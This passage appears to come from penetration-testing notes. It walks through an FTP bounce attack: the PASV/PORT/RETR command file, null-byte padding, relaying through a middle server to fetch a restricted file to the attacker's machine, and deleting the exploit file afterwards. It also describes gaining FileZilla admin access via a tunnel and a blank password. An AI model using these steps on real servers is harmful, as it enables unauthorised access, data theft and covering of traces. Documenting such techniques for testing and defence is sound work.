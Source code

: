 			ftp username@<ftp_server>
			PASV
		* **Note** of the address and port that are returned from the PASV command (`F,F,F,F,X,X`)
		* The FTP session hang. Continue the process separately.
 	1. Construct a file (e.g, "instrs") containing FTP server commands.

		 	user ftp
			pass -anonymous@
			cwd /export-restricted-crypto
			type i
			port F,F,F,F,X,X
			retr crypto.tar.Z
			quit
			^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
			^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
		* `F,F,F,F,X,X` - The address/port (10,10,10,10,2,3) that your own machine handed you on the first connection. The trash at the end is extra lines you create, each containing 250 NULLS and nothing else, enough to fill up about 60K of extra data. The reason for this filler is explained later.
 	1. Open an FTP connection to `<SERVER>.<TLD>`, log in anonymously, and cd to /incoming. Now type the following into this FTP session, which transfers a copy of your "instrs" file over and then tells ufred.edu's FTP server to connect to crypto.com's FTP server using your file as the commands:

			put instrs
			port C,C,C,C,0,21
			retr instrs
	1. Make the file that is going to send the FTP Middle server to the Victim server (the exploit). This file will be a plaint text of the needed commands to authenticate against the Victim server, change the directory and download a file to your own server.
	1. Connect to the FTP Middle Server and upload de previous file
	1. Make the FTP Middle server establish a connection with the victim server and send the exploit file
	1. Capture the file in your own FTP server
	1. Delete the exploit file from the FTP Middle server


##### FileZilla
* FileZilla usually binds to local an Administrative service for the FileZilla-Server (port 14147). If you can create a tunnel from your machine to access this port, you can connect to it using a blank password and create a new user for the FTP service.